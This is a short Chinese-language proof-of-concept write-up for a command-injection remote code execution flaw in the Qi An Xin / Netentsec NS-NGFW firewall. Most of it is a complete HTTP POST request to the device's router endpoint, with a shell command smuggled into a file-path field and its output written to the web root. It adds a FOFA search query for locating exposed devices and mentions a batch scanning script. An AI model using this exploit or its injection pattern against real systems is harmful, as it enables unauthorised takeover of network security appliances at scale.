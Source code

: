 # 0x00 软件介绍
网康NGFW：网康Next Generation FireWall，即网康下一代防火墙，网康NS-NGFW是网康下一代防火墙系列中的一款，由于网康目前被奇安信收购，故称为：奇安信 网康NS-NGFW  
官网：https://www.netentsec.com/product/lists_265.html

# 0x01 复现环境
复现环境：本地环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
暂无

# 0x04 漏洞复现
burp中发送如下请求
```
POST /directdata/direct/router HTTP/1.1
Host: xxx.xxx.160.154:4430
User-Agent: Mozilla/5.0
Content-Length: 254
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

{
    "action": "SSLVPN_Resource", 
    "method": "deleteImage", 
    "data": [
        {
            "data": [
                "/var/www/html/d.txt;id > /var/www/html/1.txt"
            ]
        }
    ], 
    "type": "rpc", 
    "tid": 17
}
```
返回如下图  
![image](./pic/0.png)  
此时，再去访问根目录下的1.txt，如下图  
![image](./pic/1.png)

# 0x05 批量脚本
fofa搜索：app="网康科技-下一代防火墙"  
网康NS-NGFW-RCE-Batch-Detect.py，具体用法见：python3 网康NS-NGFW-RCE-Batch-Detect.py -h  
效果如下  
![image](./pic/2.png)

# 0x06 参考链接
https://mp.weixin.qq.com/s/QqlueerhP0uVWWJNULhGvw
